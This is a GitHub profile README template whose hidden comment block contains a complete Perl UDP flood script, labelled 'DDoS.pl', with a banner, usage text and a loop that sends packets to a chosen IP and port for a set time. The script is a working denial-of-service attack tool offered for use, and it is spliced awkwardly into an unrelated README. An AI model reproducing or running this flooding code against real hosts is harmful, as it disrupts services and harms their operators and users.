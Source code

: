 - 👋 Hi, I’m @BlackPT11
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
BlackPT11/BlackPT11 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
-!/usr/bin/perl
 
#Created by ./Mitiny
#Port - Use '80' Para Pessoas ou Porta 53 Para DNS Ou 8090 Para Site
#Size - Use '100 - 1000' (Reccomended).
 
use Socket;
use strict;
 
print '
 
+----------------------------------------------------------------------------------+
|               |$$$$$$      |$$$$$$         $$$$$        /$$$$$$|                 |
|               |$$    $$|   |$$    $$|   |$$     $$|    |$$|                      |
|               |$$    $$|   |$$    $$|   |$$     $$|     \$$$$$\                  |
|               |$$    $$|   |$$    $$|   |$$     $$|         |$$|                 |
|               |$$$$$$$     |$$$$$$         $$$$$       |$$$$$$/                  |
+----------------------------------------------------------------------------------+
|  |$$$$$\    /$$$$|   |$$|   |$$$$$$$$$|  |$$|    |$$$$$   $$|   |$$$\    /$$$|   |
|  |$$|\$$\ /$$/|$$|   |$$|       |$$|     |$$|    |$$| \$$ $$|     \$$\  /$$/     |
|  |$$|  \$$/   |$$|   |$$|       |$$|     |$$|    |$$|  \$$/          |$$|        |
|  |$$|         |$$|   |$$|       |$$|     |$$|    |$$|                |$$|        | 
|  |$$|         |$$|   |$$|       |$$|     |$$|    |$$|                |$$|        |
+----------------------------------------------------------------------------------+
';
print "\n";
 
 
if ($#ARGV != 3) {
  print "\n\t\t\t***Error command must recieve four arguements***\n";
  print "-Ex) perl DDoS.pl 1.1.1.1 80 1000 300\n";
  print "-Therefore DDoSing the IP '1.1.1.1' for '300' seconds on port '80' using '1000' packets\n\n";
  exit(1);
}
 
my ($ip,$port,$size,$time) = @ARGV;
my ($iaddr,$endtime,$psize,$pport);
$iaddr = inet_aton("$ip") or die "Cannot connect to $ip\n";
$endtime = time() + ($time ? $time : 1000000);
socket(flood, PF_INET, SOCK_DGRAM, 17);
print "~To cancel the attack press \'Ctrl-C\'\n\n";
print "|IP|\t\t |Port|\t\t |Size|\t\t |Time|\n";
print "|$ip|\t |$port|\t\t |$size|\t\t |$time|\n";
print "To cancel the attack press 'Ctrl-C'\n" unless $time;
for (;time() <= $endtime;) {
  $psize = $size ? $size : int(rand(1500-64)+64) ;
  $pport = $port ? $port : int(rand(65500))+1;
 
  send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport, $iaddr));}
